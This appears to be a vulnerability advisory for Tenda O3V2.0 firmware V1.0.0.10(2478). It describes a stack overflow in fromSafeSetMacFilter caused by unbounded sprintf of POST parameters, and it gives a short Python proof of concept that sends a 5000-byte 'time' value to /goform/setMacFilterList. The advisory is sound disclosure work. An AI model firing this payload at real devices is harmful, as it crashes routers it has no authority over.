 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2832.html

## Affected version

O3V2.0 V1.0.0.10(2478)

## Vulnerability details

In the O3V2.0 V1.0.0.10(2478) firmware has a stack overflow vulnerability in the `fromSafeSetMacFilter` function. The `v20, v23, v26` variable receives the `remark, type, time` parameter from a POST request. However, since the user can control the input of `remark, type, time`, the statement `sprintf` can cause a buffer overflow. The user-provided  `remark, type, time` can exceed the capacity of the `v80` array, triggering this security vulnerability.

![image-20240719003401344](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719003401344.png)

![image-20240719003335196](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719003335196.png)

![image-20240719003348081](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719003348081.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setMacFilterList"
payload = b"a"*5000

data = {"action": "add", "time": payload}
response = requests.post(url, data=data)
```

![image-20240714213455164](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240714213455164.png)
